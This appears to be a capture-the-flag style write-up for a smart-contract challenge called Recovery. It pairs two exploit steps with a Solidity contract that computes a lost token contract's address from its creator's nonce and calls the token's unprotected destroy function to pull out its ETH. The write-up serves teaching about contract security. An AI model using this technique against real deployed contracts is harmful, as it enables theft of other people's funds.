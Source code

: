 ### Exploit Steps

1. **Calculate the address** of the lost token contract using the Recovery contract's address and nonce 1.
2. **Call the `destroy` function** on the token contract to send the 0.001 ETH to our address.

### Implementation Details

The solution contract, `RecoveryExploit`, implements the logic to calculate the lost token address and call its `destroy` function:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ISimpleToken {
    function destroy(address payable _to) external;
    function name() external view returns (string memory);
    function balances(address owner) external view returns (uint256);
    function transfer(address _to, uint256 _amount) external;
}

contract RecoveryExploit {
    address public recoveryAddress;
    address public owner;
    bool public recovered;

    constructor(address _recoveryAddress) {
        recoveryAddress = _recoveryAddress;
        owner = msg.sender;
        recovered = false;
    }

    function computeTokenAddress(string memory _tokenName) public view returns (address) {
        // When a contract creates another contract, the new contract's address is determined by:
        // keccak256(rlp([creator_address, creator_nonce]))[12:]
        // For the first token created by the Recovery contract, the nonce is 1
        bytes32 hash = keccak256(
            abi.encodePacked(
                bytes1(0xd6),  // RLP prefix for addresses with specific length
                bytes1(0x94),  // Fixed prefix for 20-byte address
                recoveryAddress,
                bytes1(0x01)   // nonce = 1
            )
        );
        
        // Take the last 20 bytes to get the contract address
        return address(uint160(uint256(hash)));
    }
    
    function recoverLostFunds(string memory _tokenName, address payable _recipient) external {
        require(msg.sender == owner, "Only owner can execute the exploit");
        
        // Calculate the token address
        address lostTokenAddress = computeTokenAddress(_tokenName);
        
        // Call the destroy function
        ISimpleToken(lostTokenAddress).destroy(_recipient);
        
        recovered = true;
    }
}
```
